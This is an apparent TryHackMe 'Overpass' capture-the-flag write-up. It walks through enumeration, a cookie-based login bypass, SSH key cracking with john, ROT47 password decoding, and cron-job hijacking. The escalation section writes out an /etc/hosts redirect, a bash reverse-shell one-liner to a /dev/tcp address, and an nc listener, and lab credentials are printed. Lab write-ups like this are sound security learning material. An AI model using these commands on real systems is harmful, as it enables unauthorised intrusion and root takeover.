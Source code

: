 # TryHackMe - Overpass  
🔗 https://tryhackme.com/room/overpass

## 🎯 Objective

Enumerate the web and SSH services, bypass weak client-side authentication, decrypt stored password using ROT47, retrieve SSH private key, crack it using john, and escalate privileges via cron job abuse to achieve root.

---

## 🖥️ Target Information

| Property     | Value                                              |
|--------------|-----------------------------------------------------|
| IP Address   | 10.10.225.77                                        |
| Web Server   | Golang net/http server (possibly Go-IPFS or API)    |
| SSH Server   | OpenSSH 7.6p1 Ubuntu (Port 22)                       |

---

## 🔍 1. Enumeration

### 🔧 Nmap Scan
```bash
nmap -sV -O 10.10.225.77
```

- 22/tcp → OpenSSH 7.6p1
- 80/tcp → Golang net/http server

---

### 🔍 Gobuster Directory Scan
```bash
gobuster dir -u http://10.10.225.77 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

gobuster dir -u http://10.10.247.215/as -w /usr/share/wordlists/dirb/common.txt -x php
```

Discovered `/admin`, `/downloads`, `/src` folders.

---

## 🔐 2. Client-Side Login Bypass

- `login.js` handles password check on **client side**
- Manually inject cookie named `SessionToken`
- Refresh → Bypass authentication

---

## 🗝️ 3. Private Key Recovery

Found RSA Private Key in web content:
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,....

[...cut...]
-----END RSA PRIVATE KEY-----
```

Convert to hash format:
```bash
/opt/john/ssh2john.py id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

✅ Cracked password: `james13`

Set permissions:
```bash
chmod 600 id_rsa
```

Login:
```bash
ssh -i id_rsa james@10.10.225.77
```

---

## 📝 4. Password Discovery (.overpass)

View note in home dir:
```bash
cat todo.txt
```

Find encrypted password in `.overpass`:
```
echo ",LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN." | tr '!-~' 'P-~!-O'
```

✅ Decrypted:
```json
[{"name":"m","pass":"saydrawnlyingpicture"}]
```

---

## 🔓 5. Privilege Escalation (cron abuse)

Check crontab:
```bash
cat /etc/crontab
```

Job:
```
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

💡 `overpass.thm` is hardcoded → hijack via `/etc/hosts`

Redirect domain:
```bash
echo "10.10.95.251 overpass.thm" >> /etc/hosts
```

Create malicious script on attack box:
```bash
echo 'bash -i >& /dev/tcp/10.10.95.251/12345 0>&1' > buildscript.sh
python3 -m http.server 80
```

Listen for root shell:
```bash
nc -lvnp 12345
```

✅ root shell received after 1 minute!

---

## ✅ Summary

| Phase                   | Status                          |
|------------------------|----------------------------------|
| Enumeration             | ✅ Nmap + Gobuster               |
| Login Bypass            | ✅ Cookie injection              |
| RSA Key Crack           | ✅ james / james13               |
| Password Decoding       | ✅ ROT47 + .overpass             |
| Privilege Escalation    | ✅ Crontab + curl hijack         |
| Root Access             | ✅ Obtained via reverse shell    |
